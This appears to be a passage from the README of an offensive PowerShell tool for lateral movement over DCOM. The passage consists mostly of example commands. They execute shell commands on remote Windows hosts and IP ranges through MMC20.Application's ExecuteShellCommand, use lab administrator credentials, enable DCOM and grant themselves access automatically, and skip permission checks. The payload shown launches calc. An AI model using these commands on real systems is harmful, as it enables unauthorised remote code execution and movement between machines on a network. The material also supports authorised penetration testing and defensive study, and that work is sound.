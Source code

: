             PS> Get-ExecutionCommand -ObjectName "MMC20.Application" -ObjectPath "Document.ActiveView.ExecuteShellCommand" -HostList "10.211.55.4" -Username "lab\Administrator" -Password "Aa123456!" -AutoGrant -Verbose

  3. Tries to interact with `MMC20.Application` (ProgID) object through `10.211.55.1/24` ip range using current logged-on session without analyze ACL permissions
        then it will generates the execution command.

            PS> Get-ExecutionCommand -ObjectName "MMC20.Application" -ObjectPath "Document.ActiveView.ExecuteShellCommand" -HostList "10.211.55.1/24" -SkipPermissionChecks -Verbose

  4. Tries to interact with `MMC20.Application` (ProgID) object through `10.211.55.4` ip address, without querying the registry.

            PS> Get-ExecutionCommand -ObjectName "MMC20.Application" -ObjectPath "Document.ActiveView.ExecuteShellCommand" -HostList "10.211.55.4" -SkipRegAuth -Verbose


#### Invoke-ExecutionCommand

Invoke-ExecutionCommand function executes commands via DCOM Object using the logged-on user or provided credentials.
* Examples:

  1. Checks for DCOM access,  
        In case the principal-identity doesn't have the necessary permissions or the DCOM feature is disabled, the tool will enable the DCOM feature, grant access, Interact with `MMC20.Application` (ProgID) object through the IP range: `10.211.55.1/24` using current logged-on user session and Execute the following commands:
        1. Executes `cmd.exe /c calc` command
        2. Set `Frame.Top` attribute to `1`
        Finally, revert the machine to the same state as before the attack.

                PS> Invoke-ExecutionCommand -ObjectName "MMC20.Application" -AutoGrant -Commands @( @{ObjectPath="Document.ActiveView.ExecuteShellCommand"; Arguments=@('cmd.exe',$null,"/c calc","Minimized")},@{ObjectPath="Frame.Top";Arguments=@(1)} ) -HostList "10.211.55.1/24" -Verbose

  2. Tries to interact with `MMC20.Application` (ProgID) object using `lab\administrator` credentials through `10.211.55.4` ip address, and executes the following command: `cmd.exe /c calc`.

            PS> Invoke-ExecutionCommand -ObjectName "MMC20.Application" -Commands @( @{ObjectPath="Document.ActiveView.ExecuteShellCommand"; Arguments=@('cmd.exe',$null,"/c calc","Minimized")}) -HostList "10.211.55.4" -Username "lab\administrator" -Password "Aa123456!" -Verbose

  3. Tries to interact with `MMC20.Application` (ProgID) object using current logged-on user session without analyze ACL permissions, and executes the following command: `cmd.exe /c calc`.

            PS> Invoke-ExecutionCommand -ObjectName "MMC20.Application" -Commands @( @{ObjectPath="Document.ActiveView.ExecuteShellCommand"; Arguments=@('cmd.exe',$null,"/c calc","Minimized")}) -HostList "10.211.55.4" -SkipPermissionChecks -Verbose

#### Invoke-RegisterRemoteSchema

Invoke-RegisterRemoteSchema function executes commands via InternetExplorer.Application's object using the logged-on user or provided credentials.
* ShellBrowserWindow
* ShellWindows
* Internet Explorer
* ielowutil.exe
